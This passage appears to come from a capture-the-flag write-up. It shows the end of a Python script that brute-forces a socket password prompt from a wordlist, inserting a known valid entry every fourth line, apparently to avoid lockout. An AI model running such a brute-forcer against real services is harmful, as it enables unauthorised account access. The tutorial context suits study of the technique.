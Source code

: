 # Closing wordlist files
wlist.close()
temp_wlist.close()

# Looping through temporary wordlist file
temp_wlist = open("/tmp/tmp_wlist", "r")
for line in temp_wlist.readlines():
    time.sleep(0.5)
    print(f"[i] Trying {line.strip()}")
    try:
        s.sendall(line.strip().encode())
        response = s.recv(1024).decode()

        if response != "Password:\n":
            print(f"[+] {line.strip()} might be the password. It returned: {response}")
            choice = input("Continue? [y/n] -> ")
            if choice != "y":
                exit(0)
    except socket.timeout:
        print("[-] Response timeout!")
        continue

# Closing temporary wordlist file
temp_wlist.close()

# Deleting temporary file
os.system("rm /tmp/tmp_wlist")
{{</code>}}

This script is similar to the first one, the difference being it will create a temporary wordlist from the provided wordlist in the `WORDLIST_PATH` variable. This temporary wordlist will contain the valid endpoint once every 4 words, for example:

**Original wordlist**
```text
pass1
pass2
pass3
pass4
pass5
```

**Temporary wordlist**
```text
<REDACTED>
pass1
pass2
pass3
<REDACTED>
pass4
pass5
```
